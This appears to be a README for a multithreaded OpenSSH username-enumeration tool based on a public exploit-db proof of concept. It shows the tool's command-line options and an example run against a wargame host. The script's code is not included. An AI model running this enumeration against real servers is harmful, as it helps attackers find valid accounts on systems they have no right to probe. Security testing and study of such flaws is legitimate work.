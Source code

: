 # openssh_user_bruteforce
OpenSSH 2.3 &lt; 7.4 - Username Enumeration Multithreaded Bruteforcer. Based on http://www.openwall.com/lists/oss-security/2018/08/15/5

# Usage
```
$ ./openssh_bruteforce.py -h
usage: openssh_bruteforce.py [-h] -host HOSTNAME [-p PORT] [-user USERNAME]
                             [-w WORDLIST]

optional arguments:
  -h, --help            show this help message and exit
  -p PORT, --port PORT  Target port. (Default 22)
  -user USERNAME, --username USERNAME
                        Check a single username.
  -w WORDLIST, --wordlist WORDLIST
                        Path to a usernames wordlist.

required arguments:
  -host HOSTNAME, --hostname HOSTNAME
                        The host you want to target.
```
example 
```$ ./openssh_bruteforce.py -host pwnable.kr -user fd -p 2222
[+] User Exists!
```

# Note
You can find explanation of the technique used inside the script.

### TODO
Fix the multithreading sessions.

#### Credits
This script is heavily based on the POC found on exploit-db https://www.exploit-db.com/exploits/45210/
